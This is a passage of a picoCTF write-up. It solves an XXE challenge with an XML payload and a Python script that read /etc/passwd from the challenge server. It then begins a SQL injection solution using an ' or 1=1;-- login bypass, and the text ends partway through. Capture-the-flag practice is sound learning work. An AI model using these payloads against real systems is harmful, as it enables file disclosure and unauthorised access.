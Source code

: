 Open the network to understand how it work in background. 
`<?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>`

It appear the data being send are using xml format. It might be vulnerablt to XXE injection. 

```
Payload

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE whymer [ <!ENTITY hack SYSTEM "file:///etc/passwd"> ]>
<data><ID>&hack;</ID></data>
```

```
//xxe.py
#!/usr/bin/env python3

import requests

url = 'http://saturn.picoctf.net:60680/data'

payload = """<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE whymer [ <!ENTITY hack SYSTEM "file:///etc/passwd"> ]>
<data><ID>&hack;</ID></data>"""

response = requests.post(url, data=payload)
    
print(f"Status Code: {response.status_code}")
print(f"Response Body:\n{response.text}")

```

==picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}==

---

## More SQLi

**Description**
Can you find the flag on this website. Try to find the flag here.

**Solution**
With the name of challenge, SQLi, try to put `"` in password. It return debugging.
```
username: admin
password: "
SQL query: SELECT id FROM users WHERE password = '"' AND username = 'admin'

```
Testing payload
```'or 1=1;--
'or 1=1;--
Manage to get into welcome.php.
```
For `search` input, it will return value city, address and phone. To illustrate it in DB.
`Select city,address,phone from table;`
